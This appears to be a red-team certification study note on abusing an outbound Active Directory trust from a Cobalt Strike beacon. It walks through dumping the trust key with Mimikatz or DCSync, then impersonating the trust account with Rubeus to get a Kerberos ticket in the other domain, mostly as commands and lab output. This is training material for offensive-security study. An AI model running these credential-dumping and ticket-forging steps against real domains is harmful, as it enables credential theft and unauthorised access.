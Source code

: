 
In theory, if Domain AAA trusts domain BBB, users in AAA cannot access resources in B (Outbound Trust).

#### 🖊️ via Cobalt Strike

Lets use an example where:

-Our beacon is in domain `DEV`
-`DEV` trusts `cyberbotic.io`
-`cyberbotic.io` trusts `msp.org`

So:

-`DEV` has outbound trust with `cyberbotic.io`
-`cyberbotic.io` has inbound trust with `DEV`
-`cyberbotic.io` has outbound trust with `msp.org`

1) Check the beacon

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> powershell Get-DomainTrust -Domain cyberbotic.io

SourceName      : cyberbotic.io
TargetName      : msp.org
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FILTER_SIDS
TrustDirection  : Outbound
```

We can check the trust of a related domain with parameter -Domain

2) We can still partially exploit this trust and obtain "domain user" access from CYBER to MSP by leveraging the shared credential for the trust.  Both domains in a trust relationship store a shared password (which is automatically changed every 30 days) in a Trusted Domain Object (TDO).
These objects are stored in the system container and can be read via LDAP.  Here we see that the DC in CYBER has two TDOs for its trusts with DEV and MSP.

```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=trustedDomain)" --domain cyberbotic.io --attributes distinguishedName,name,flatName,trustDirection

[*] TOTAL NUMBER OF SEARCH RESULTS: 2
	[+] distinguishedName : CN=dev.cyberbotic.io,CN=System,DC=cyberbotic,DC=io
	[+] name              : dev.cyberbotic.io
	[+] flatName          : DEV
	[+] trustDirection    : 3

	[+] distinguishedName : CN=msp.org,CN=System,DC=cyberbotic,DC=io
	[+] name              : msp.org
	[+] flatName          : MSP
	[+] trustDirection    : 2
```


3) There are two options for obtaining the key material.  One is to move laterally to the DC itself and dump from memory.

⚠ This performs memory patching, which is very risky, particularly on a domain controller (check next method)

```
beacon> run hostname
dc-1

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> mimikatz lsadump::trust /patch

Domain: MSP.ORG (MSP / S-1-5-21-616357355-3455548143-339820157)
 [  In ] CYBERBOTIC.IO -> MSP.ORG

 [ Out ] MSP.ORG -> CYBERBOTIC.IO
    * 8/16/2022 9:49:17 AM - CLEAR   - 93 8e aa 1f 5f 6e 2a cc 51 7d d4 a8 07 f2 f0 2c a3 e0 20 3b 24 32 68 58 0d f8 ad cc
	* aes256_hmac       5db44be4317433d5ab1d3dea5925126d295d3e21c9682bca7fef76bc5a878f30
	* aes128_hmac       9851d2d80411e6d40122005d1c361579
	* rc4_hmac_nt       f3fc2312d9d1f80b78e67d55d41ad496

 [ In-1] CYBERBOTIC.IO -> MSP.ORG

 [Out-1] MSP.ORG -> CYBERBOTIC.IO
    * 8/16/2022 9:49:17 AM - CLEAR   - 93 8e aa 1f 5f 6e 2a cc 51 7d d4 a8 07 f2 f0 2c a3 e0 20 3b 24 32 68 58 0d f8 ad cc
	* aes256_hmac       5db44be4317433d5ab1d3dea5925126d295d3e21c9682bca7fef76bc5a878f30
	* aes128_hmac       9851d2d80411e6d40122005d1c361579
	* rc4_hmac_nt       f3fc2312d9d1f80b78e67d55d41ad496

```

4) The second is to use DCSync with the TDO's GUID.

```
beacon> powershell Get-DomainObject -Identity "CN=msp.org,CN=System,DC=cyberbotic,DC=io" | select objectGuid

objectguid                          
----------                          
b93d2e36-48df-46bf-89d5-2fc22c139b43
```

  ```
  beacon> mimikatz @lsadump::dcsync /domain:cyberbotic.io /guid:{b93d2e36-48df-46bf-89d5-2fc22c139b43}

[DC] 'cyberbotic.io' will be the domain
[DC] 'dc-1.cyberbotic.io' will be the DC server
[DC] Object with GUID '{b93d2e36-48df-46bf-89d5-2fc22c139b43}'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : msp.org

** TRUSTED DOMAIN - Antisocial **

Partner              : msp.org
 [ Out ] MSP.ORG -> CYBERBOTIC.IO
    * 8/16/2022 9:49:17 AM - CLEAR   - 93 8e aa 1f 5f 6e 2a cc 51 7d d4 a8 07 f2 f0 2c a3 e0 20 3b 24 32 68 58 0d f8 ad cc
	* aes256_hmac       5db44be4317433d5ab1d3dea5925126d295d3e21c9682bca7fef76bc5a878f30
	* aes128_hmac       9851d2d80411e6d40122005d1c361579
	* rc4_hmac_nt       f3fc2312d9d1f80b78e67d55d41ad496

 [Out-1] MSP.ORG -> CYBERBOTIC.IO
    * 8/16/2022 9:49:17 AM - CLEAR   - 93 8e aa 1f 5f 6e 2a cc 51 7d d4 a8 07 f2 f0 2c a3 e0 20 3b 24 32 68 58 0d f8 ad cc
	* aes256_hmac       5db44be4317433d5ab1d3dea5925126d295d3e21c9682bca7fef76bc5a878f30
	* aes128_hmac       9851d2d80411e6d40122005d1c361579
	* rc4_hmac_nt       f3fc2312d9d1f80b78e67d55d41ad496
```
`[Out]` and `[Out-1]` are the "new" and "old" passwords respectively (they're the same here because 30 days hasn't elapsed since the creation of the trust).  In most cases, the current [Out] key is the one you want.  

In addition, there is also a "trust account" which is created in the "trusted" domain, with the name of the "trusting" domain.

5) For example here are the trust accounts created in the trusted (msp.org) domain:

```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=user)"

[*] TOTAL NUMBER OF SEARCH RESULTS: 11

        [...]
	[+] cn : CYBER$
	[+] cn : STUDIO$
```

6) This means that the MSP domain will have a trust account called CYBER$, even though we can't enumerate across the trust to confirm it.  This is the account we must impersonate to request Kerberos tickets across the trust.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:CYBER$ /domain:msp.org /rc4:f3fc2312d9d1f80b78e67d55d41ad496 /nowrap

[*] Action: Ask TGT

[*] Using rc4_hmac hash: f3fc2312d9d1f80b78e67d55d41ad496
[*] Building AS-REQ (w/ preauth) for: 'msp.org\CYBER$'
[*] Using domain controller: 10.10.151.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFGD[...]Aub3Jn

  ServiceName              :  krbtgt/msp.org
  ServiceRealm             :  MSP.ORG
  UserName                 :  CYBER$
  UserRealm                :  MSP.ORG
  StartTime                :  9/12/2022 2:03:12 PM
  EndTime                  :  9/13/2022 12:03:12 AM
  RenewTill                :  9/19/2022 2:03:12 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  Uf2X2f65qJYeHow3kfHG2w==
  ASREP (key)              :  F3FC2312D9D1F80B78E67D55D41AD496
```

7) This TGT can now be used to interact with the domain.

```
beacon> run klist

Current LogonId is 0:0x537833

Cached Tickets: (1)

#0>	Client: CYBER$ @ MSP.ORG
	Server: krbtgt/msp.org @ MSP.ORG
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96

beacon> powershell Get-Domain -Domain msp.org

Forest                  : msp.org
DomainControllers       : {ad.msp.org}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : 
PdcRoleOwner            : ad.msp.org
RidRoleOwner            : ad.msp.org
InfrastructureRoleOwner : ad.msp.org
Name                    : msp.org
```

This account is obviously not a domain admin, but there are multiple abuse primitives that can now be performed across the trust to elevate privileges - including kerberoasting, ASREPRoasting, RBCD, and vulnerable certificate templates.


#### ⚠ Opsec




### Properties
---
📆 created   {{27-02-2024}} 12:20
🏷️ tags: #redteam #crto 

---

